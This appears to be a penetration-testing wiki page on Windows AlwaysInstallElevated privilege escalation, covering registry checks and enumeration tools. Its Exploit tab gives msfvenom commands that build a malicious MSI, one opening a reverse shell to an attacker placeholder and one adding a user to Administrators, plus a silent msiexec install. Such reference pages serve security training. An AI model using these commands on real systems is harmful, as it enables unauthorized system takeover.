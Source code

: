 ```yaml
---
description: MITRE ATT&CK™  System Binary Proxy Execution - Msiexec - Technique T1218.007
---
```



# AlwaysInstallElevated 

## Theory

The **AlwaysInstallElevated** policy feature offers ALL users on a Windows operating systemis the ability to install an MSI package file with elevated (system) privileges.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
Manual verification of the activation of this parameter is very simple and can be done with two commands. If it is enabled, it will create the value `AlwaysIntstallElevated` and set it to `0x1` (enabled) on the following two registry keys.
```bash
#Windows   
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

#Unix-like
reg.py domain.local/username:password123@IP query -keyName "HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" -v AlwaysInstallElevated
reg.py domain.local/username:password123@IP query -keyName "HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" -v AlwaysInstallElevated
```

Alternatively, using [PowerUp](https://github.com/PowerShellMafia/PowerSploit) from Powersploit we can enumerate the AlwaysInstallElevated policy.
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

Alternatively, using the `systeminfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe systeminfo
```
{% endtab %}

{% tab title="Exploit" %}
We just have to generate a malicious MSI file and install it with `msiexec.exe`  

Generate a malicious MSI
```bash
# Reverse Shell
v4resk㉿kali$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> -f msi > package.msi

# Add user to Administrators
v4resk㉿kali$ msfvenom -p windows/exec CMD='net localgroup administrators <YOUR_USER> /add' -f msi > package.msi
```

Then, after downloading it to the target, install the MSI file using msiexec
```powershell
msiexec.exe /quiet /qn /i package.msi
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://juggernaut-sec.com/alwaysinstallelevated/" %}
